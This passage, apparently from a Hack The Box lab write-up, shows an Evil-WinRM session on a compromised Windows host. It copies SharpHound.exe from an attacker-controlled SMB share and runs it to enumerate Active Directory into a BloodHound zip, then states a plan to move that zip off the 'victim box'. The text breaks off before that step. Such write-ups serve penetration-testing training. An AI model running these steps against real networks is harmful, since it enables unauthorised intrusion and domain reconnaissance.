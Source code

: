 ```
*Evil-WinRM* PS C:\windows\tasks> dir
*Evil-WinRM* PS C:\windows\tasks> copy \\10.10.14.81\\Q\\SharpHound.exe .
*Evil-WinRM* PS C:\windows\tasks> dir


    Directory: C:\windows\tasks


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/3/2022   6:20 AM        1051648 SharpHound.exe


*Evil-WinRM* PS C:\windows\tasks> .\SharpHound.exe --CollectionMethods All
2023-04-26T02:07:36.0580825-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-04-26T02:07:36.4330428-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-04-26T02:07:36.4799029-07:00|INFORMATION|Initializing SharpHound at 2:07 AM on 4/26/2023
2023-04-26T02:07:37.2317629-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-04-26T02:07:37.7630138-07:00|INFORMATION|Beginning LDAP search for htb.local
2023-04-26T02:07:37.9977497-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-04-26T02:07:38.0133697-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-04-26T02:08:08.0665318-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 40 MB RAM
2023-04-26T02:08:23.1167404-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2023-04-26T02:08:23.1636152-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2023-04-26T02:08:23.2573745-07:00|INFORMATION|Status: 161 objects finished (+161 3.577778)/s -- Using 49 MB RAM
2023-04-26T02:08:23.2573745-07:00|INFORMATION|Enumeration finished in 00:00:45.5018113
2023-04-26T02:08:23.3511592-07:00|INFORMATION|Saving cache with stats: 118 ID to type mappings.
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-04-26T02:08:23.3667472-07:00|INFORMATION|SharpHound Enumeration Completed at 2:08 AM on 4/26/2023! Happy Graphing!
*Evil-WinRM* PS C:\windows\tasks> dir


    Directory: C:\windows\tasks


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/26/2023   2:08 AM          19068 20230426020822_BloodHound.zip
-a----        4/26/2023   2:08 AM          19605 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----         8/3/2022   6:20 AM        1051648 SharpHound.exe


*Evil-WinRM* PS C:\windows\tasks> 
```
- I will transfer that zip file of bloodhounnd from victim box to my local computer
- Command
